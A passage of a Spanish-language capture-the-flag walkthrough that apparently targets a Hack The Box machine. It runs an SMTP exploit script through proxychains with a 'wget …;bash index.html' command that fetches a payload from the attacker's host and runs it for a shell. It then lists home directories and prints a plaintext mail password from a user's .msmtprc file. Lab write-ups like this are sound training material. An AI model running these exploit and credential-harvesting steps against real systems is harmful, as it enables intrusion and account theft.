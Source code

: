 ```bash
sudo service apache2 start
```

```bash
proxychains python3 47984.py 10.241.251.113 25 'wget 10.10.14.11;bash index.html'
```
Ya tenenos la shell.

# Lateral Movement

Comencemos enumerando todos los usuarios de la máquina:

```bash
root@smtp:/home# ls -alh
total 0
drwxr-xr-x. 1 root       root       24 Dec  8 10:56 .
drwxr-xr-x. 1 root       root       96 Dec  8 18:50 ..
drwxr-xr-x. 1 j.nakazawa j.nakazawa 59 Dec  9 12:31 j.nakazawa
```

Parece que el único usuario de este sistema es j.nakazawa. Echemos un vistazo a su carpeta de inicio.

```bash
root@smtp:/home/j.nakazawa# ls -alh
total 16K
drwxr-xr-x. 1 j.nakazawa j.nakazawa   59 Dec  9 12:31 .
drwxr-xr-x. 1 root       root         24 Dec  8 10:56 ..
lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .bash_history -> /dev/null
-rw-r--r--. 1 j.nakazawa j.nakazawa  220 Apr 18  2019 .bash_logout
-rw-r--r--. 1 j.nakazawa j.nakazawa 3.5K Apr 18  2019 .bashrc
-rw-------. 1 j.nakazawa j.nakazawa  476 Dec  8 19:12 .msmtprc
-rw-r--r--. 1 j.nakazawa j.nakazawa  807 Apr 18  2019 .profile
lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .viminfo -> /dev/null
```

Detectamos un archivo interesante en la carpeta de inicio del usuario: .msmtprc. Este es un archivo de configuración para usar el cliente SMTP. Comprobemos posibles contraseñas.

```bash
root@smtp:/home/j.nakazawa# cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```
